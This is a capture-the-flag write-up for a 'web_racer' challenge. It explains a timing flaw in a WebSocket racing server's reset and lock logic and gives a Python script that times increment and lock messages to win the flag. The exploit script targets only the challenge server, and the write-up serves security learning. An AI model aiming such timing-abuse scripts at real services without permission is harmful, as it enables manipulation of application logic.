 # web_racer

> win the race

Provided: [`websocketracer_server.js`](websocketracer_server.js)

## Solution

When reading through the provided JavaScript file, I thought this block was the most interesting:

```js
// websocketracer_server.js - lines 26-40
if (data.action === 'increment' && !lockFlag) {
    currentPosition += 100;
    socket.send(JSON.stringify({ action: 'status', position: currentPosition }));
} else if (data.action === 'lock') {
    lockFlag = true;
    setTimeout(() => {
        if (currentPosition >= targetPosition) {
            socket.send(JSON.stringify({ action: 'win', flag: secretFlag }));
        } else {
            socket.send(JSON.stringify({ action: 'lose' }));
        }
        currentPosition = 0;
        lockFlag = false;
    }, 990);
} // ...
```

There's basically two actions that we can do (well technically 3, but manual resetting is irrelevant).
The `increment` action increments our current position, while the `lock` action sends either the flag or a loss message, depending on how our current position compares to `targetPosition` (1000).

...well, that's not entirely true. Because of the `setTimeout` call, the result message is only sent out (at least) 990 milliseconds after we lock.
As it turns out, this is a bit of a problem because the server also resets our position every second:

```js
// websocketracer_server.js - lines 16-20
const resetInterval = setInterval(() => {
    currentPosition = 0;
    lockFlag = false;
    socket.send(JSON.stringify({ action: 'reset' }));
}, 1000);
```

This means that we need to get to a position of 1000 and send a lock message within 10 milliseconds.
Luckily for us, computers are really good at doing things fast (or at least much better than humans anyways).
Because all communication is done over a WebSocket, we can just communicate with the server directly, bypassing the entire web interface.
The WebSocket address can be found in your browser of choice's devtools (this is Firefox as an example):

<div align="center">
<img src="websocket-devtools.png" alt="Finding WebSocket address in Firefox developer tools">
</div>

With that address in hand, you can then move on to scripting interactions with the racing server.
Unfortunately, though, you can't just spam increments then lock; you have to time it properly because network latency exists and is a real thing :)

Based on some *very* scinetific testing, my team figured out how to correct for that latency and ended up with this program which works a solid 99% of the time:

```python
import asyncio
import json
import time

import websockets as webs

INCREMENT = json.dumps({"action":"increment"})
LOCK = json.dumps({"action":"lock"})

async def main():
    async with webs.connect("ws://chal.ctf-league.osusec.org:1329") as ws:
        # network latency :)
        await asyncio.sleep(0.980)
        for i in range(10):
            await ws.send(INCREMENT)

        await ws.send(LOCK)
        
        tries = 0
        # just print like everything lmao
        while "OSU" not in (res := await ws.recv()):
            tries += 1
            
            if tries > 15:
                print("Unable to get flag this time :(")
                break

        # yes else can be used with while loops, this is probably like *the* use case for it :)
        else:
            flag = json.loads(res)["flag"]
            print("Flag:", flag)

if __name__ == "__main__":
    asyncio.run(main())
```

Running that does indeed get you the flag:

```shell
$ python speeeed.py
Flag: OSU{w3bs0cket_r4c3_c0nd1t10n}
```

Honestly a pretty neat little challenge!
I was glad to be able to use an else clause on a while loop in Python for once, the more you know I guess :)